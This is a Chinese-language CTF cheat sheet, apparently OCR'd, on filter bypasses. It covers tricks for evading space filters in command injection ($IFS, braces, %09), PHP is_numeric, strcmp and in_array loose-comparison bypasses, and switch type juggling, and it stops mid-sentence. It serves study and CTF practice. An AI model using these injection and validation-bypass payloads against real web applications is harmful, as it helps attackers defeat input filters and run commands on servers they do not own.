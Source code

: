 # 空格过滤
## Linux
### $IFS
```SHELL
cat${IFS}flag 
cat$IFS$9flag 
cat$IFS$1flag
```

### < <> {,} %09 %20
```SHELL
cat<flag 
cat<>flag 
{cat,flag} 
cat%09flag 
cat%20flag
```
< 或<>与通配符一起使用时没有回显，使用不能同时使用
用逗号实现空格功能，需要用{}括起来
在PHP环境下可以使用%09(tab)绕过空格
# is_numeric()
如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE，注意浮点型返回空值，即 FALSE。
is_numeric函数对于空字符%00，无论是%00放在前后都可以判断为非数值，而%20空格字符只能放在数值后。

```
?what=1'
?what=1,
?what=1%00
# 都可以绕过
```
# strcmp函数绕过
利用strcmp函数将数组或者对象类型与字符串进行比较会返回-1，但是从5.3开始，会返回0当传入`?id[]=1`时即可bypass

# array_search（）、in_array()绕过
array_search() 函数在数组中搜索某个键值，并返回对应的键名。in_array() 函数搜索数组中是否存在指定的值。基本功能是相同的，也就是说绕过姿势也相同。利用函数接入到了不符合的类型返回“0”这个特性，直接绕过检测。所以payload：`?test[]=0`。
# switch()绕过
如果switch是数字类型的case的判断时，switch会将其中的参数转换为int类型
```php
<?php $i ="3name"; 
switch ($i) { 
case 0: 
case 1: 
case 2: 
	echo "this is two";
	break; 
case 3: 
	echo "flag"; 
	break; 
} 
?>
```
# 布尔类型 True 与非零非 NULL 变量比较都会是 True
在PHP中任何类型的值, 与bool比较都会被转化成bool比较当转换为 bool 时，以下值被认为是 **`false`**：